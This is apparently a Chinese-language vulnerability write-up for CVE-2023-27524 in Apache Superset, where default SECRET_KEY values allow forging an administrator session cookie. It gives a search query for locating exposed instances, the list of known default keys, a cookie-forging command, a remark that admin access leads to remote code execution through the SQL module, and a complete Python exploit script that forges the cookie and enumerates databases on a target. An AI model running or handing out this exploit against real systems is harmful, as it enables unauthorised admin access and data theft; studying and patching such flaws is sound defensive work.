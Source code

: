 # Apache Superset SECRET_KEY 未授权访问漏洞 CVE-2023-27524

## 漏洞描述

Apache Superset 是一款现代化的开源大数据工具，也是企业级商业智能 Web 应用，用于数据探索分析和数据可视化。它提供了简单易用的无代码可视化构建器和声称是最先进的 SQL 编辑器，用户可以使用这些工具快速地构建数据仪表盘。CVE-2023-27524 中，未经授权的攻击者可根据默认配置的SECRET_KEY伪造成管理员用户访问Apache Superset。

## 漏洞影响

<a-checkbox checked>Apache Superse <= 2.0.1</a-checkbox>

## 网络测绘

<a-checkbox checked>app.name="Apache Superset"</a-checkbox>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1682838138564-7fdfca89-2f1f-4a36-a4a5-dbae861921cf.png)

漏洞修复补丁

```python
https://github.com/apache/superset/pull/23186/files
```

![img](../../../.vuepress/public/img/1682859425929-72e075c9-aa9d-471a-895c-00534946bc37.png)

补丁代码中，新建了判断用户是否使用了默认的Key进行配置，如果为默认的Key，就直接中断启动,。但在 Docker的 env 下还是添加了固定的 Key: TEST_NON_DEV_SECRET

![img](../../../.vuepress/public/img/1682859727857-32f7b8ab-6d79-4510-bd8a-7c35ffeb9a01.png)

```python
# https://github.com/horizon3ai/CVE-2023-27524/blob/main/CVE-2023-27524.py
SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]
```

这里拿Docker下的环境举例

![img](../../../.vuepress/public/img/1682860108549-f0304837-46e6-4aa3-8293-3c0d47adf837.png)

初次请求时会获取到 Cookie, 使用默认Key验证 Cookie是否可被伪造

![img](../../../.vuepress/public/img/1682860244029-b3144d4b-6738-43fe-a210-862fd5f7b402.png)

登陆主页面观察主要参数

![img](../../../.vuepress/public/img/1682863386090-2b976333-180d-41b5-ae83-065b9157b1f9.png)

通过设置参数 user_id 和 _user_id 为 1 ,构造加密Cookie

```python
>>> from flask_unsign import session
>>> session.sign({'_user_id': 1, 'user_id': 1},'TEST_NON_DEV_SECRET')
'eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.ZE51uw.EdD7zSzojgY4keqZLOKR4GndJf8'
```

利用构造的 Cookie就可以获取到 Web后台管理权限, 后台中存在数据库语句执行模块，通过设置允许执行其他数据库语句后利用数据库语句 RCE

![img](../../../.vuepress/public/img/1682860028858-f8ba38e4-1bce-404f-8644-d48e04c2232e.png)

![img](../../../.vuepress/public/img/1682859997832-1b07ff2f-779d-408b-9700-df1a154f3c7d.png)





## 漏洞POC

```python
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


SECRET_KEYS = [
    b'\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h',  # version < 1.4.1
    b'CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET',          # version >= 1.4.1
    b'thisISaSECRET_1234',                            # deployment template
    b'YOUR_OWN_RANDOM_GENERATED_SECRET_KEY',          # documentation
    b'TEST_NON_DEV_SECRET'                            # docker compose
]

def main():

    parser = argparse.ArgumentParser()
    parser.add_argument('--url', '-u', help='Base URL of Superset instance', required=True)
    parser.add_argument('--id', help='User ID to forge session cookie for, default=1', required=False, default='1')
    parser.add_argument('--validate', '-v', help='Validate login', required=False, action='store_true')
    parser.add_argument('--timeout', '-t', help='Time to wait before using forged session cookie, default=5s', required=False, type=int, default=5)
    args = parser.parse_args()

    try:
        u = args.url.rstrip('/') + '/login/'

        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:101.0) Gecko/20100101 Firefox/101.0'
        }

        resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
        if resp.status_code != 200:
            print(f'Error retrieving login page at {u}, status code: {resp.status_code}')
            return

        session_cookie = None
        for c in resp.cookies:
            if c.name == 'session':
                session_cookie = c.value
                break

        if not session_cookie:
            print('Error: No session cookie found')
            return

        print(f'Got session cookie: {session_cookie}')

        try:
            decoded = session.decode(session_cookie)
            print(f'Decoded session cookie: {decoded}')
        except:
            print('Error: Not a Flask session cookie')
            return

        match = re.search(r'&#34;version_string&#34;: &#34;(.*?)&#34', resp.text)
        if match:
            version = match.group(1)
        else:
            version = 'Unknown'

        print(f'Superset Version: {version}')


        for i, k in enumerate(SECRET_KEYS):
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print('Failed to crack session cookie')
            return

        print(f'Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}')

        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({'_user_id': user_id, 'user_id': user_id}, k)
        print(f'Forged session cookie for user {user_id}: {forged_cookie}')

        if args.validate:
            try:
                headers['Cookie'] = f'session={forged_cookie}'
                print(f'Sleeping {args.timeout} seconds before using forged cookie to account for time drift...')
                sleep(args.timeout)
                resp = requests.get(u, headers=headers, verify=False, timeout=30, allow_redirects=False)
                if resp.status_code == 302:
                    print(f'Got 302 on login, forged cookie appears to have been accepted')
                    validated = True
                else:
                    print(f'Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')
            except Exception as e_inner:
                print(f'Got error {e_inner} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id.')

            if not validated:
                return

            print('Enumerating databases')
            for i in range(1, 101):
                database_url_base = args.url.rstrip('/') + '/api/v1/database'
                try:
                    r = requests.get(f'{database_url_base}/{i}', headers=headers, verify=False, timeout=30, allow_redirects=False)
                    if r.status_code == 200:
                        result = r.json()['result'] # validate response is JSON
                        name = result['database_name']
                        print(f'Found database {name}')
                    elif r.status_code == 404:
                        print(f'Done enumerating databases')
                        break # no more databases
                    else:
                        print(f'Unexpected error: status code={r.status_code}')
                        break
                except Exception as e_inner:
                    print(f'Unexpected error: {e_inner}')
                    break


    except Exception as e:
        print(f'Unexpected error: {e}')


if __name__ == '__main__':
    main()
```

![img](../../../.vuepress/public/img/1682838210558-fb15ac75-f3d7-43cd-8d26-511fec0fd9a1.png)